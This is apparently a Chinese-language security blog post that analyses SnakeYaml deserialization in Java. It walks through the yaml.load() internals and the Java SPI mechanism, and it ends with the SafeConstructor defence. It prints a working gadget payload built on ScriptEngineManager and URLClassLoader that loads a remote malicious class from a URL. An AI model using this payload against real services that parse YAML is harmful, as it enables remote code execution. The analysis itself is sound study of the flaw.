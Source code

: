 # SnakeYaml 反序列化分析


# 前言

继续学习Yaml反序列化，SnakeYaml是Java中用来解析Yaml格式的库，可用于Java对象的序列化和反序列

# 反序列化分析

先导入SnakeYaml的依赖

```xml
<dependency>
    <groupId>org.yaml</groupId>
    <artifactId>snakeyaml</artifactId>
    <version>1.27</version>
</dependency>
```

接着构造一个User类，试着将这个User类通过yaml进行转换，看一下转换后的效果，其中Yaml中有两个重要的函数：

- load() :解析传进来的参数，生成相应的Java对象
- dump() :将Java对象转换为yaml格式

![1.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/5d602406-b3e4-abc2-b0e3-61dd5a4c4aa9.png)

输出结果中，**!! 表示强制类型转换，强制转换为User类型**

接着将转换的内容进行load()操作，在`yaml.load(str)`处打断点进行分析

```java
import org.yaml.snakeyaml.Yaml;

public class YamlTest {
    public static void main(String[] args) {
        Yaml yaml = new Yaml();
        String str = "!!User {age: '18', name: 张三}";
        yaml.load(str);
    }
}

```

进入到`org.yaml.snakeyaml.Yaml#loadFromReader`中，其中str放入到`StreamReader`中，type为传进来的固定的值`Object`，经过一系列的设置进入到`getSingleData`中

![2.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/c2d079da-13b5-2420-6a71-871579c66711.png)

会先通过`getSingleNode()`获取一个`Node`实例，其中有一个tag属性其值表示为会转换成一个User类型的对象，然后判断node和tag属性是否为空，然后继续判断type是否为Object和根标签是否为空，最后将node传入到`constructDocument()`中

![3.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/ba76ef67-088b-abb2-5a5f-f7358e271b66.png)

可以看到data即为转换的User类，而data是在`this.constructObject(node)`中得到的，继续跟进

![4.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/b0952841-f717-112e-8b7e-36e599390297.png)

接着在`org.yaml.snakeyaml.constructor.BaseConstructor#constructObjectNoCheck`中，`this.constructedObjects.containsKey(node)`为false然后进入到`constructor.construct(node)`中获取data值

![5.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/e965754f-bfed-8f75-36d6-cb2f5a55bed7.png)

继续跟进，先进入到`getConstructor`中

![6.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/d0c0029e-597b-fec0-dfae-45e7634b8457.png)

在`getClassForNode`中，截取tag属性中的类名User并进行编码后，并将User赋值给`Class cl`，然后返回，最后是将cl赋值给node的type属性

![7.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/925265c5-7198-b65c-6c8f-3a5eb74e1fee.png)

![8.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/30c606e1-6297-4217-7713-a6e326369747.png)

在`construct`中，先是通过`this.newInstance`创建了一个User实例，接着进入到`this.constructJavaBean2ndStep`

![9.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/969c21f8-767d-3b50-34df-00562796e1bf.png)

在`constructJavaBean2ndStep`中，通过while循环在一开始传进来的字符串中提取value值，然后在`property.set(object, value)`通过反射将value值赋值给创建的User类中，最后return给data返回创建好的User类

![10.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/6644d219-e7fb-939d-0653-e81e2b317f9e.png)

![11.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/14b5395a-8461-f5f5-0968-e8117eb1f2c7.png)

这样一来，如果对构造好的恶意的payload进行解析就有可能触发漏洞，这里拿`JdbcRowSetImpl`类来示范一下，确实触发了JNDI注入弹出计算器

> 这里注意一点，jdk版本需要满足 8u161 < jdk < 8u191

![12.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/5a40987d-6861-1f40-9f99-949342ba91e2.png)

# SPI机制

看了不少的文章都在Yaml反序列时使用了SPI机制去触发弹计算器，这里也记录一下这个知识点(好记性不如烂笔头)

SPI（Service Provider Interface），是JDK内置的一种 服务提供发现机制，可以用来启用框架扩展和替换组件，主要是被框架的开发人员使用，比如java.sql.Driver接口，而**Java的SPI机制可以为某个接口寻找服务实现**。Java中SPI机制主要思想是将装配的控制权移到程序之外，在模块化设计中这个机制尤其重要，其核心思想就是解耦

整体机制如下：

![13.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/b3fe00ad-6d22-3a13-aa1c-befa9da370d3.png)

当服务的提供者提供了一种接口的实现之后，需要在classpath下的`META-INF/services/`目录里创建一个以服务接口命名的文件(文件名为：javax.script.ScriptEngineFactory)，这个文件里的内容就是这个接口的具体的实现类。当其他的程序需要这个服务的时候，就可以通过查找这个jar包（一般都是以jar包做依赖）的`META-INF/services/`中的配置文件，配置文件中有接口的具体实现类名，可以**根据这个类名进行加载实例化**，就可以使用该服务了。JDK中查找服务的实现的工具类是：`java.util.ServiceLoader`

也就是说可以构造一个恶意类，然后在web服务下的`META-INF/services/`中的配置文件中指定这个恶意类(类需要继承ScriptEngineFactory接口)，然后在yaml.load()中传入触发SPI机制的参数即可

![14.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/bbf197a0-ec0c-2e7b-5364-0ed979c26333.png)

```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/"]]]]
```

![15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/88ef3b74-cb0c-ed07-4ffd-ba5bc63e0825.png)

在yaml解析的过程中最后实例化`ScriptEngineManager`然后触发`init()`，进行一系列赋值后进入到`initEngines(loader)`

![16.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/6eaf0c50-d32e-1ff6-361f-de040273e2bc.png)

一路跟进到最后在`java.util.ServiceLoader.LazyIterator#nextService`中，得到要加载的类名，然后在`service.cast(c.newInstance())`中对加载的恶意类进行实例化然后触发弹计算器

![17.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/90e1b553-483e-044a-247b-01f92dba6e41.png)

更多的Gadget可参考Mi1k7ea师傅的[文章](https://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x03-%E6%9B%B4%E5%A4%9AGadgets%E6%8E%A2%E7%A9%B6)

# 防御方法

开启`new SafeConstructor()`即可防御Yaml反序列

```java
Yaml yaml = new Yaml(new SafeConstructor());
```

# 参考链接

1. https://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E
2. https://www.pdai.tech/md/java/advanced/java-advanced-spi.html#java%e5%b8%b8%e7%94%a8%e6%9c%ba%e5%88%b6---spi%e6%9c%ba%e5%88%b6


